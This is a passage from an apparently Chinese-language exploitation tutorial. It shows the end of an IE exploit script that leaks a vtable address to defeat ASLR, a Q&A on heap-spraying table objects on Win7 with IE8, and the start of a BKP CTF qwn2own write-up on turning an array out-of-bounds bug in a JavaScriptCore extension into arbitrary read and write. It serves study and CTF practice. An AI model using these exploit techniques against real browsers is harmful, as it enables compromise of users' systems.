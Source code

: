 ```
            leak_addr = parseInt(leak.charCodeAt(1).toString(16)+leak.charCodeAt(0).toString(16),16);
            alert(leak_addr.toString(16));
            leak_addr=leak_addr-Number(0x001584f8);
            alert(leak_addr.toString(16));
            break;
        `}`
    `}`    
&lt;/script&gt;
```

**Q:**<br>****肯定有读者有疑问，为什么要创建那么多table对象，而不只使用一个对象，然后溢出获得虚函数表。****

**A:**<br><strong><em>这个问题笔者也做了一个实验，在WIN7+IE8环境下，将`&lt;table&gt;`只保留第一个，让js对该对象进行修改，将这个exp精简得非常短小，居然也能有非常高的成功率。<br>
应该是因为这是笔者的实验环境是IE8，而当时PWN2OWN的环境是IE9，其内存保护机制更为复杂，所以采用了较大数量的`&lt;table&gt;`保证成功率。</em></strong>



## 数组越界到任意地址读取

题目来源:BPK CTF –[qwn2own](https://github.com/migraine-sudo/PWN-/raw/master/%E5%AE%9E%E4%BE%8BPNW%E9%A2%98/3.HEAP/qwn2own.tar)

上一章节的IE漏洞，我们通过泄漏虚函数表绕过了ASLR，而并没有实现一个任意地址读取。本章节将讲解如何利用数组越界来进行一个真正意义上的任意地址读写。

漏洞存在于JS引擎的扩展，JS引擎则是webkit自带的`javascriptcore`。题目的所有防护机制都是开启的。

通过访问题目提供的example.html和API文档来快速熟悉代码。当使用BKPDataBase创建数据存储，会返回一个BKInstancec对象。BKPInstance对象可以创建一个包含数组（QVector）的对象（QBJECT）BKPStore，该对象可以创建一个拥有对其存储数据的操作权。

### <a class="reference-link" name="%E6%95%B0%E7%BB%84%E8%B6%8A%E7%95%8C"></a>数组越界

程序的BKPStore对象定义

```
class BKPStore : public QObject `{`
    Q_OBJECT
public:
    BKPStore(QObject * parent = 0, const QString &amp;name = 0, quint8 tp = 0, QVariant var = 0, qulonglong store_ping = 0);
    void StoreData(QVariant v);

    Q_INVOKABLE QVariant getall();
    Q_INVOKABLE QVariant get(int idx);
    Q_INVOKABLE int insert(unsigned int idx, QVariant var);
    Q_INVOKABLE int append(QVariant var);
    Q_INVOKABLE void remove(int idx);
    Q_INVOKABLE void cut(int beg, int end);
    Q_INVOKABLE int size();

private:
    quint8 type; // specifies which type to of vector
                  // to use
    QVector&lt;QVariant&gt; varvect;
    QVector&lt;qulonglong&gt; intvect;
    QVector&lt;QString&gt; strvect;
    qulonglong store_ping;
`}`;
```
